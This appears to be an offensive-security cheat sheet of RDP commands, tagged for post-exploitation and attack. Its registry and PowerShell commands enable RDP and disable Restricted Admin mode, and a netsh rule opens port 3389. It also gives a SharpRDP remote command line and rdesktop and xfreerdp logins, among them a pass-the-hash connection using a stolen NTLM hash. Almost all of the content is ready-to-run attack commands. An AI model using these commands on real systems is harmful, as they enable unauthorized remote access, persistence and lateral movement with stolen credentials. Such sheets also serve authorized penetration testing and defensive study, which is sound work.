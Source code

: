 # windows rdp

% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389

## enable RDP
#cat/POSTEXPLOIT 
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## enable restricted admin (powershell)
#cat/POSTEXPLOIT 
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

## enable restricted admin (cmd)
#cat/POSTEXPLOIT 
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

## disable restricted admin
#cat/POSTEXPLOIT 
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

## rdp from console
```
sharprdp.exe computername=<computer> command="<command>" username=<domain>\<user> password=<password>
```

## Add firewall authorisation RDP
#cat/POSTEXPLOIT 
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp
```

# rdesktop
% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## rdesktop - classic
```
rdesktop -g 90% <ip> -u <user> -p <password> -d <domain>
```

## rdesktop - with share
```
rdesktop -g 90% <ip> -u <user> -p <password> -d <domain> -r disk:share=<share>
```

# xfreerdp

% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## xfreerdp - classic
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /h:1024 /w:1640 /drive:share,<share> +drives
```

## xfreerdp - with share
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /h:1024 /w:1640 /drive:share,<share> +drives
```

## xfreerdp - pass the hash
```
xfreerdp /u:<user> /pth:<hash> /d:<domain> /v:<ip> /h:1024 /w:1640 /drive:share,<share> +drives
```
